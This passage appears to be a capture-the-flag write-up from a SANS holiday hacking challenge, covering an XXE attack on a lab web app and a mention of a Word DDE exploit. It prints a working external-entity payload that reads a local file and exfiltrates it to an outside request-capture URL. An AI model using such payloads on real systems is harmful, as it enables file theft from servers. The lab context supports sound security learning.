 EaaS server is located at address 10.142.0.13. We will set up the usual SSH tunnel and hosts file mapping to access it.

Upon further examination it becomes clear that the site is vulnerable to XXE.

We can set up our ```evil.dtd``` DTD on an external site (like http://ix.io/) with the following content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 
'https://requestb.in/10mqw8w1?%stolendata;'>">
```

Let's submit an XML that references this DTD:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE Elf [
    <!ELEMENT Elf ANY >
    <!ENTITY % extentity SYSTEM "http://ix.io/Dex">
    %extentity;
    %inception;
    %sendit;
    ]
>
<Elf><Elf><ElfID>1</ElfID><ElfName>Elf On a Shelf</ElfName>
<Contact>8675309</Contact><DateOfPurchase>11/29/2017 12:00:00 AM</DateOfPurchase>
<Picture>1.png</Picture><Address>On a Shelf, Obviously</Address></Elf>
...
</Elf>
```

The vulnerable XML parser will down our evil DTD and, in turn, exfiltrate file c:\greatbook.txt to the external server. The file contents turn out to be the full address of the Page 6 of the Great Book:

```
http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf
```

The answer to the challenge question:

> Q: 6) The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?
>
> A: "The Dreaded Inter-Dimensional Tornadoes"

![emi]({{ site.baseurl }}/images/sans2017/emi.png)

#### Elf-Machine Interfaces (EMI)

As hints suggest, EMI machine can be exploited through a DDE vulnerability in MS Word. 
